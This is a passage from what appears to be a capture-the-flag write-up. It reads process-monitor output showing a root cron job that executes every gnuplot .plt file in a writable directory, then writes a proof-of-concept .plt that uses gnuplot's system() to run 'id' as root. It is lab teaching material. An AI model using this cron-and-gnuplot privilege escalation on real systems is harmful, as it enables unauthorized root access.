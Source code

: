     2023/09/07 13:47:01 CMD: UID=0     PID=218687 | /usr/sbin/CRON -f 
    2023/09/07 13:47:01 CMD: UID=0     PID=218686 | /usr/sbin/CRON -f 
    2023/09/07 13:47:01 CMD: UID=0     PID=218688 | 
    2023/09/07 13:47:01 CMD: UID=0     PID=218690 | /usr/sbin/CRON -f 
    2023/09/07 13:47:01 CMD: UID=0     PID=218689 | /bin/sh /opt/gnuplot/getdata.sh 
    2023/09/07 13:47:01 CMD: UID=0     PID=218691 | find /opt/gnuplot -name *.plt -exec gnuplot {} ; 
    2023/09/07 13:47:01 CMD: UID=0     PID=218700 | sed s/,//g 
    2023/09/07 13:47:01 CMD: UID=0     PID=218699 | /bin/sh /opt/gnuplot/getdata.sh 
    2023/09/07 13:47:01 CMD: UID=0     PID=218698 | /bin/sh /opt/gnuplot/getdata.sh 
    2023/09/07 13:47:01 CMD: UID=0     PID=218697 | uptime 
    2023/09/07 13:47:01 CMD: UID=0     PID=218696 | gnuplot /opt/gnuplot/loadplot.plt 
    2023/09/07 13:47:01 CMD: UID=???   PID=218695 | ???
    2023/09/07 13:47:01 CMD: UID=???   PID=218694 | ???
    2023/09/07 13:47:01 CMD: UID=???   PID=218693 | ???
    2023/09/07 13:47:01 CMD: UID=0     PID=218701 | /bin/sh /opt/gnuplot/getdata.sh 
    2023/09/07 13:47:01 CMD: UID=0     PID=218702 | /bin/sh /opt/gnuplot/getdata.sh 
    2023/09/07 13:47:01 CMD: UID=0     PID=218703 | gnuplot /opt/gnuplot/networkplot.plt 
    

The first four lines are just CRON starting. What’s interesting comes next -
it is calling `/opt/gnuplot/getdata.sh`, which is using `find` to get all
`.plt` files from `/opt/gnuplot` and passes them to `gnuplot`!

### Execution via gnuplot

#### POC

I can write to `/opt/gnuplot` and any `.plt` file in that directory will get
run each minute. In theory, if I can run a script from a `.plt` (which it
looks like may be happening in the two files in there now), then I should be
able to get arbitrary code execution.

To test this, I’ll write a simple `.plt` file using the `system` command,
starting with something based on the example in [these
docs](http://www.bersch.net/gnuplot-doc/system.html):

    
    
    output = system("id")
    print(output)
    

I’ll want to write the results somewhere. The
[docs](http://www.bersch.net/gnuplot-doc/print.html) for `print` say that the
output file can be set with `set print`:

    
    
    set print "/dev/shm/0xdf-output"
    output = system("id")
    print(output)
    

I’ll write that to a `.plt` file (using `cat` and `<< EOF` to write until it
gets a line with `EOF`):

    
    
    vdaisley@topology:/opt$ cat > /opt/gnuplot/0xdf.plt << EOF
    > set print "/dev/shm/0xdf-output"
    > output = system("id")
    > print(output)
    > EOF
    
